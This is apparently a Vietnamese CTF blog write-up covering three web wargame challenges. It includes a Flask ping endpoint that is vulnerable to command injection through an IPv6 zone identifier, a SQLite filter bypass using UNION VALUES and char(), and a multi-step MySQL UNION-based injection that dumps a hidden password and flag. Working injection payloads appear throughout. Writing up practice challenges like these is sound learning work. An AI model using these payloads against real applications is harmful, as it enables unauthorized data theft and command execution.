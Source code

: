 +++
date = '2025-04-16T04:02:58+07:00'
draft = true
title = 'Dreamhack Web Wargame'
+++


Sau một thời gian dài cùng với các mảng CTF về ngôn ngữ low-level, mình nghĩ rằng đã đến lúc mình cần một cái gì đó mới mẻ hơn, offensive hơn và web là lựa chọn đó. Ở đây mình sẽ chỉ sưu tầm những chall mình đánh giá là hay, có thể nó không khó nhưng bổ sung cho mình nhiều điều mới mẻ.

## EZ_command_injection

### 1. Recon

Check mã nguồn Web có 2 endpoint là '/', '/ping'. Khi gửi request 'GET' đến endpoint '/ping' thì chương trình sẽ đọc IP là giá trị của biến host, sau đó gọi lệnh hệ thống để ping.

```
#!/usr/bin/env python3
import subprocess
import ipaddress
from flask import Flask, request, render_template

app = Flask(__name__)

@app.route('/', methods=['GET'])
def index():
    return render_template('index.html')

@app.route('/ping', methods=['GET'])
def ping():
    host = request.args.get('host', '')
    try:
        addr = ipaddress.ip_address(host)
    except ValueError:
        error_msg = 'Invalid IP address'
        print(error_msg)
        return render_template('index.html', result=error_msg)

    cmd = f'ping -c 3 {addr}'
    try:
        output = subprocess.check_output(['/bin/sh', '-c', cmd], timeout=8)
        return render_template('index.html', result=output.decode('utf-8'))
    except subprocess.TimeoutExpired:
        error_msg = 'Timeout!!!!'
        print(error_msg)
        return render_template('index.html', result=error_msg)
    except subprocess.CalledProcessError:
        error_msg = 'An error occurred while executing the command'
        print(error_msg)
        return render_template('index.html', result=error_msg)

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8000)
```

### 2. Analysis

Như mã nguồn được biết, server sau khi nhận request sẽ đẩy ip (giá trị tham số host) vào biến host, sau đó dùng hàm ipaddress.ip_address() để xác định ip hợp lệ trước khi chạy lệnh ping. Như vậy gần như không thể command injection vào bên trong biến host. Tuy nhiên thì thực ra vẫn có cách để bypass cơ chế này.

![alt text](/images/dhweb1.png)

Theo tài liệu python, ipaddress.ip_address() sẽ lấy chính xác địa chỉ ip đúng định dạng, tuy nhiên ipv6 có một cơ chế tên là Zone Identifier. Zone Identifier dùng để xác định chính xác loại Interface sử dụng để gửi gói tin trong link-local. Tuy nhiên nếu như chúng ta chèn thêm phía sau Zone Identifer và url_encode thì python sẽ không thể nhận ra ip không hợp lệ, điều này giúp chúng ta đạt được RCE.

### 3. Exploitation

Sử dụng burp pro để điều chỉnh GET request tới server.

![alt text](/images/dhweb2.png)

Như mình đề cập ở trên, phần Zone Identifier sẽ mắc theo cả phần string phía sau nên mình sẽ lợi dụng điều này chèn command 'cat flag.txt'. Như vậy payload mình chèn vào sẽ là:

```fe80::1%eth0 & cat flag.txt &```
Mình không chắc chắn cách server xử lý nên để chắc ăn mình sẽ encode nó lại theo url encode. Gửi request và thu được flag.

![alt text](/images/dhweb3.png)

### 4. Reference

- https://docs.python.org/3/library/ipaddress.html#module-ipaddress
- https://datatracker.ietf.org/doc/html/rfc6874



## baby-SQLite

### 1. Recon
Web có 2 endpoint '/', '/login'. Khi đăng nhập thì client sẽ gửi một POST request thông tin về uid,upw lên server. Server trả về flag nếu uid='admin'.

### 2. Analysis

Đọc mã nguồn server, mình nhận thấy câu lệnh truy vấn của phía server có tận 3 tham số uid,upw và level. Như vậy nếu như mình thêm tham số level vào request thì mình có thể ghi đè thoải mái vào level. Tuy nhiên server lại có filter để tránh tình trạng đó.

```sqli_filter = ['[', ']', ',', 'admin', 'select', '\'', '"', '\t', '\n', '\r', '\x08', '\x09', '\x00', '\x0b', '\x0d', ' ']```

Như vậy việc dùng SELECT để SQLi UNION-based gần như là không thể. Sau khi mình tìm hiểu thì còn một cách khác là UNION VALUES trong SQLite. Bên cạnh đó thì 'admin' cũng bị filter nên mình sẽ chuyển từ các giá trị ascii về ký tự bằng hàm char.

### 3. Exploitaiton

Dựa trên những phân tích này, mình xây dựng được payload.
```0/**/UNION/**/VALUES(char(97)||char(100)||char(109)||char(105)||char(110))```

Tiêm payload vào parameter level gửi đến server.

![alt text](/images/dhweb4.png)

Server trả về flag như mong đợi.

![alt text](/images/dhweb5.png)
* NOTE: về SQLite Mình có bảng tham khảo lệnh truy vấn.

![alt text](/images/dhweb6.png)


## [wargame.kr] adm1nkyj

### 1. Recon

Trang web cho biết mã nguồn PHP của server khi truy cập vào. Khi server nhận đúng 3 giá trị id,pw và flag, server sẽ trả về flag thật cho chúng ta. Nếu không sẽ thực thi ```echo "Hello ".$query[$id_column]."<hr>";```.

### 2. Analysis & Exploitation

Đọc query chính của server: 
```$query = mysql_fetch_array(mysql_query("SELECT * FROM findflag_2 WHERE $id_column='{$id}' and $pw_column='{$pw}';"));```

nếu chúng ta ghi đè vào tham số id để truy vấn "SELECT * FROM findflag_2" luôn đúng thì có thể chúng ta lấy được giá trị trong cột lưu trong biến $id_column. Đơn giản nhất là ```OR 1=1```.


![alt text](/images/dhweb6.png)

![alt text](/images/dhweb8.png)


Lấy được 1 giá trị trong cột là 'adm1ngnngn', có vẻ là 1 giá trị mình cần tìm vì có liên quan đến admin.

Tuy nhiên thì do chỉ in ra giá trị $id_column trong query nên chúng ta không thể leak các cột $pw_column bằng UNION-based thông thường.

Chúng ta nhìn lại logic lấy query.
``` 
$query = mysql_fetch_array(mysql_query("SELECT * FROM findflag_2 WHERE $id_column='{$id}' and $pw_column='{$pw}';"));
```
và 
```
echo "Hello ".$query[$id_column]."<hr>"
```

```$query[$id_column]``` sẽ trả về giá trị mà ```$id_column``` so sánh với trong query, tuy nhiên thì nếu như query có lệnh so sánh ```$id_column``` không trả về bất kỳ thứ gì thì nó sẽ lấy giá trị query trả về.

Bên cạnh đó, biến ```$pw_column``` lại chứa tên cột của pw. Vậy nếu ép query trả về ```$pw_column``` thì ```$query[$id_column]=$pw_column```. Thử thì nhìn thấy ở cột thứ 2 của query mới hiển thị trên response về client nên chúng ta xây dựng được payload.

```
?id='+and+0+union+select+1,&pw=3,4,5--+-
```

Query lúc đó sẽ trở thành:
```
SELECT * FROM findflag_2 WHERE $id_column='' and 0 union select 1, 'and $pw_column=',3,4,5;
```

Gửi request đến server và nhận response:
![alt text](/images/dhweb9.png)

Như vậy `$pw_column=xPw4coaa1sslfe`. Biết được tên cột rồi thì mình cần query để dò giá trị mật khẩu của admin.

Cũng cùng kỹ thuật trên, chúng ta sẽ ép cho truy vấn gốc bị vô hiệu để `$query[$id_column]` sẽ trả về giá trị thu được từ query. Biết được tên column rồi thì chúng ta thực hiện truy vấn với payload sau.

`?id='+and+0+union+select+1,(select+xPw4coaa1sslfe+from+findflag_2),3,4,5--+-`

![alt text](/images/dhweb10.png)

Thử gửi request với giá trị tài khoản và mật khẩu thu được.

![alt text](/images/dhweb11.png)

Response trả về cho thấy id và pw đã đúng. Điều tiếp theo mình cần tìm là flag. Flag được lưu trong hẳn 1 column tên là flag_column. Do vậy mình vẫn cần dựa vào truy vấn để tìm flag. Trước tiên thì chúng ta vẫn không biết chính xác tên cột flag để gọi truy vấn, tuy nhiên truy vấn gốc cho ta biết rằng có 5 cột nên mình sẽ thay phiên dump giá trị 5 cột đó ra. Ý tưởng sẽ là tạo một bảng ảo bằng subquery với dòng đầu tiên là ảo, dòng thứ 2 sẽ là giá trị dump từ findflag_2. Thử query tất cả các vị trí của bảng ảo này thì mình tìm thấy được `$flag_column` nằm ở cột 4. Như vậy mình chỉ cần lấy giá trị truy vấn dòng thứ 2 của bảng ảo cột 4:

![alt text](/images/dhweb12.png)

Payload:`?id='+and+0+union+select+1,flag,3,4,5+from+(select+1,2,3,4+as+flag,5+union+select+*+from+findflag_2+LIMIT+1,1)x--+-`

Gửi request có cả id,pw và flag đến server để nhận được đáp án.

![alt text](/images/dhweb13.png)

### 3. Conclusion

Bản thân mình nhận thấy đây là một chall rất hay khi yêu cầu một chút khả năng hiểu logic lỗi của code PHP. Mấu chốt nằm ở việc lấy được giá trị `$pw_column` để tìm mật khẩu.


